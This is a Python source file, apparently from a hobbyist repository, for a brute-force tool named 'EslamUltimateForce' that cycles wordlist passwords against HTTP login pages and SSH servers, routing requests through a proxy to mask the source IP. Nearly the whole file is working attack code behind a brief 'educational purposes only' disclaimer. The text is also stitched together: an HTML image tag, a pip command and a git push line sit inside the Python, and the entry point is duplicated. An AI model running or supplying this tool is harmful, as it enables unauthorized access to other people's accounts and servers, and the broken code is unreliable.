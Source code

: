 # EslamUltimateForce - Brute Force Tool
# Developed by Eslam Hacker FB
# This tool is for educational purposes only.
# Be responsible and use it ethically in your testing environments.

import requests
import paramiko
import time
import sys
import threading
<img src="profile.jpg" alt="Elkaed" class="w-48 h-48 rounded-full shadow-lg border-4 border-blue-400 mb-4 fade-in">


# Proxychains support (for IP masking)
import os

# Global Variables
USERNAME = "Eslam Hacker FB"  # Disable or remove username field (personalize)
PROXY = "socks4 127.0.0.1 9050"  # Proxy to mask the IP

# Function to perform brute-force on HTTP login
def brute_force_http(url, wordlist):
    """
    Function to attempt brute force on an HTTP login page
    :param url: URL of the login page (e.g., http://example.com/login)
    :param wordlist: Path to the wordlist file containing passwords
    """
    with open(wordlist, 'r') as file:
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()  # Remove any trailing spaces
        try:
            response = requests.post(url, data={'username': USERNAME, 'password': password}, proxies={'http': PROXY})
            if "login successful" in response.text.lower():
                print(f"Password found for {USERNAME}: {password}")
                break
        except requests.exceptions.RequestException as e:
            print(f"Error with the request: {e}")
            continue

# Function to perform brute-force on SSH login
def brute_force_ssh(ip, username, wordlist):
    """
    Function to attempt brute force on an SSH server
    :param ip: Target IP address (e.g., 192.168.1.1)
    :param username: SSH username
    :param wordlist: Path to the wordlist file containing passwords
    """
    with open(wordlist, 'r') as file:
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()  # Remove any trailing spaces
        try:
            client = paramiko.SSHClient()
            client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            client.connect(ip, username=username, password=password)
            print(f"Password found for {username}: {password}")
            client.close()
            break
        except paramiko.AuthenticationException:
            print(f"Invalid password for {username}: {password}")
            continue
        except Exception as e:
            print(f"Error with the SSH connection: {e}")
            continue

# Main function to start the brute-force attack
def start_attack():
    print("Welcome to EslamUltimateForce Brute-Force Tool!")
    print("-------------------------------------------------")
    attack_type = input("Choose attack type (HTTP or SSH): ").strip().lower()

    wordlist = input("Enter path to wordlist file: ").strip()

    if attack_type == "http":
        url = input("Enter target HTTP login URL: ").strip()
        brute_force_http(url, wordlist)
    elif attack_type == "ssh":
        ip = input("Enter target IP address: ").strip()
        username = input("Enter SSH username: ").strip()
        brute_force_ssh(ip, username, wordlist)
    else:
        print("Invalid attack type chosen. Please choose either HTTP or SSH.")
        sys.exit(1)

if __name__ == "__main__":
    start_attack()
pip install pillow
from PIL import Image

# Welcome Message with colorful eyes design
def display_welcome_message():
    print("\033[1;32;40m")  # Set terminal text to green
    image = Image.open('path_to_your_image.png')  # Make sure to put the image path here
    image.show()
    print("\033[1;37;40m")  # Reset terminal text color
    print("\033[1;34mWelcome to EslamUltimateForce by Eslam Hacker FB \033[0m")

# Use this in the main function to show the image and text
if __name__ == "__main__":
    display_welcome_message()
    start_attack()
git push -u origin master
